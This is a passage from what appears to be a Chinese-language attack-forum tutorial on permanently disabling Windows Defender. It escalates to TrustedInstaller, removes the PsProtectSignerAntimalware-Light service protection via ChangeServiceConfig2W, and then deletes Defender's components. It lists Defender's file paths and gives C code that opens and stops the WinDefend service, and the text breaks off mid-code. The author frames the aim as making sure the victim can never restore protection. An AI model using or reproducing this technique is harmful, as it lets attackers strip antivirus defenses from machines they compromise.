 ![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6e2f7de51e65c77f7a419e1feff01ae34d7dddcb.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_28%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

提权到TrustedInstaller并使用这个权限打开一个新的CMD.exe

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-baf9ba7dac651e73554a6668504c23c6a5a9cdfe.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_32%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

同时这个cmd.exe也拥有TrustedInstaller权限。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-4cada7d4ac8738aacc8964a402bd5edc93cf8b75.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_30%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

### 2.关闭Windows Defender服务

这个其实并不是漏洞，因为我们的administrator权限也可以直接临时关闭Windows Defender服务。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7646115e135464c2e427e66cbeac53e01aeab562.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_30%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

但是这样关闭Windows Defender服务可以手工打开和重启会自动打开，我们想要的是永远关闭Windows Defender服务，在黑客的想法中就是目标无论如何都没有办法再次启动Windows Defender服务，当然重装系统除外。哈哈哈....

### 3.移除 PsProtectSignerAntimalware-Light 保护

在微软文档中我们可以知道：

<https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfig2w>

只要我们对服务对象有足够的访问权限，就可以更改服务保护。也就是说我们可以关闭Windows Defender服务的PPL。经过我们测试知道服务 ACL 根本不允许 SYSTEM 用户和管理员组修改或停止 Windows Defender 服务。但它允许 WinDefend 和 TrustedInstaller 修改或停止 Windows Defender 服务的ppl，那么上面我们拥有了完整的TrustedInstaller权限。

那么我们可以禁用Windows Defender 服务的PsProtectSignerAntimalware-Light，然后可以修改和删除Windows Defender的运行必要组件来达到使永远关闭Windows Defender服务的目的。

Windows Defender的文件保存路径为：

C:\\Program Files\\Windows Defender  
C:\\Program Files\\Windows Defender Advanced Threat Protection  
C:\\Program Files (x86)\\Windows Defender

在有PPL的情况下我们无法对这些文件进行任何修改。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1e0c4b226567d2b4f7911d85cc48330909428114.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_22%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

同样在TrustedInstaller权限中也无法进行修改等等操作。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-37483d56bc3ef40cb75ede8cabee6cda8f84e2d9.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_29%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

那么我们可以使用TrustedInstaller权限通过ChangeServiceConfig2W来停止PsProtectSignerAntimalware-Light 保护，然后修改和删除Windows Defender的运行必要组件来达到使永远关闭Windows Defender服务的目的。

`SC\_HANDLE tt = OpenSCManager(NULL, NULL, GENERIC\_READ);//建立服务控制管理器的连接  
SC\_HANDLE windefend\_svc = OpenServiceW(tt, L"WinDefend", SERVICE\_START | SERVICE\_STOP | GENERIC\_READ | SERVICE\_CHANGE\_CONFIG | SERVICE\_USER\_DEFINED\_CONTROL);  
//打开一个已经存在的服务 打开wdf的服务  
if (windefend\_svc == NULL) {  
printf("\\n\[-\] Failed to open WinDefend service.");  
return 1;  
}  
printf("Done.\\n");  
SERVICE\_STATUS svc\_status;  
if (!ControlService(windefend\_svc, SERVICE\_CONTROL\_STOP, &amp;svc\_status)) {  
//停止WDF服务  
printf("\[-\] Failed to stop WinDefend service :(");  
return 1;  
}  
printf("\[+\] Successfully sent service stop control.\\n");  
SERVICE\_LAUNCH\_PROTECTED\_INFO info;  
DWORD ret\_sz = 0;  